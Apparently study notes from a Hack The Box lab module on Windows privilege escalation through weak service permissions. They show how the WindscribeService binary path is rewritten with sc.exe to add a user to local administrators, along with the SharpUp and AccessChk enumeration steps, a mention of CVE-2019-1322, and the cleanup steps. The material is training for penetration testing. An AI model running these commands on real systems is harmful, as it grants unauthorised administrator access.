 impact:
- change binary path to cmd and pass arg to add user to local admins:
```cmd-session
sc.exe config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```
stop and start

=== Modifiable Services ===

```cmd-session
C:\htb> SharpUp.exe audit
 
=== SharpUp: Running Privilege Escalation Checks ===
 
 
=== Modifiable Services ===
 
  Name             : WindscribeService
  DisplayName      : WindscribeService
  Description      : Manages the firewall and controls the VPN tunnel
  State            : Running
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\Windscribe\WindscribeService.exe"
```

#### Checking Permissions with AccessChk

```cmd-session
C:\htb> accesschk.exe /accepteula -quvcw WindscribeService

WindscribeService

  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
```

#### Changing the Service Binary Path
 change the binary path to add our user to the local administrator group. 
```cmd-session
 sc.exe config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"

[SC] ChangeServiceConfig SUCCESS
```

#### Stopping Service
```cmd-session
 sc stop WindscribeService
```

#### Starting the Service
```cmd-session
C:\htb> sc start WindscribeService
```

#### Confirming Local Admin Group Addition
```cmd-session
C:\htb> net localgroup administrators

htb-student

```

Another notable example is the Windows [Update Orchestrator Service (UsoSvc)](https://docs.microsoft.com/en-us/windows/deployment/update/how-windows-update-works), which is responsible for downloading and installing operating system updates. It is considered an essential Windows service and cannot be removed. Since it is responsible for making changes to the operating system through the installation of security and feature updates, it runs as the all-powerful `NT AUTHORITY\SYSTEM` account. Before installing the security patch relating to [CVE-2019-1322](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1322), it was possible to elevate privileges from a service account to `SYSTEM`. This was due to weak permissions, which allowed service accounts to modify the service binary path and start/stop the service.

---

## Weak Service Permissions - Cleanup

We can clean up after ourselves and ensure that the service is working correctly by stopping it and resetting the binary path back to the original service executable.

#### Reverting the Binary Path

```cmd-session
C:\htb> sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"

[SC] ChangeServiceConfig SUCCESS
```

#### Starting the Service Again

If all goes to plan, we can start the service again without an issue.

```cmd-session
C:\htb> sc start WindScribeService
 
SERVICE_NAME: WindScribeService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 1716
        FLAGS              :
```

#### Verifying Service is Running

Querying the service will show it running again as intended.

```cmd-session
C:\htb> sc query WindScribeService
 
SERVICE_NAME: WindScribeService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  Running
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
    
```
